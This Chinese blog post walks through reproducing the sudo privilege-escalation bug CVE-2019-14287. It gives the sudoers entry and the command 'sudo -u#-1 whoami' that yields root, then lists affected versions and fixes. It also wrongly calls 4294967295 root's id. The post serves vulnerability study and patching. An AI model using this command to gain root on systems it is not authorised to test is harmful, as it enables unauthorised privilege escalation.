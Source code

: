 ```yaml
---
title: CVE-2019-14287之sudo提权复现
date: 2019-10-16 22:05:39
toc: true
tags:
- CVE-2019-14287
categories:
- 漏洞复现
---
```


## CVE-2019-14287漏洞复现

### 前言

漏洞前两天就爆出了，迫于手头有渗透测试任务没来的及复现，今天晚上跑步回来一试。。。

### 复现动画

[![asciicast](https://asciinema.org/a/PlH487cVnZ865mmWPvvyOpL2A.svg)](https://asciinema.org/a/PlH487cVnZ865mmWPvvyOpL2A)

### 复现环境

> macOS Catalina 10.15

### 复现过程

> 切换至root用户，为/etc/sudoers添加    test    ALL = (ALL,!root) ALL
>
> 切换至test用户，执行sudo -u#-1 whoami 
>
> 终端输出 root   或  4294967295（root的id）

### 漏洞影响

sudo版本<1.8.28

此漏洞的利用需要使用户具有sudo的权限

### 漏洞修复

1. 升级至最新版本sudo
2. 修改配置

